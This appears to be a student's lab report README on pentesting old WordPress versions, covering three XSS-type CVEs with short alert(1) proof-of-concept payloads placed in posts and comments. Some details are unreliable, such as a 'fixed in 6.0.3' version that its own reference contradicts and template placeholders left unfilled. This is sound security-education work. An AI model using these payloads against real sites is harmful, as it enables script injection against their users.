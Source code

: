 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report
### 1. CVE-2017-6817: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1.16
    - Fixed in version: 6.0.3
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: 
    - Write a post:
    ```
    [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
    ```
    - When the page loads, the alert will pop up
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
  - References
    - https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
    - https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    - https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    - https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
### 2. CVE-2015-5734: Legacy Theme Preview Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS 
    - Tested in version: 4.1.7
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: 
    - Comment under any post
    ```
    <a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
    ```
    - Hover over the comment
    - Alert box will pop up
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33549)
    - Bug comes from preview_theme() function
  - References 
    - [Blog](https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
    - https://wpscan.com/vulnerability/7d99fa14-0b94-4e9a-9fc0-d3f22648be4e)
### 3.  CVE-2016-4566: Pupload Same Origin Method Execution (SOME)
  - [x] Summary: 
    - Vulnerability types: Xss
    - Tested in version: 4.1.11
    - Fixed in version: 4.5.2
  - [x] GIF Walkthrough: 
  <img src="button.png">
  - [x] Steps to recreate: 
    - Post a comment with:
    ```
    <button onclick="fire()">Click</button>
    <script>
      function fire() {
       open('javascript:alert(1)');
      }
    </script>
    ```
    - Clicking the button causes an alert to pop up
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  - References
    - https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
    - https://wordpress.org/news/2016/05/wordpress-4-5-2/
    - https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
    - https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [ezgif](https://ezgif.com/gif-to-mp4).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2022] [Nowshin Sayara]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
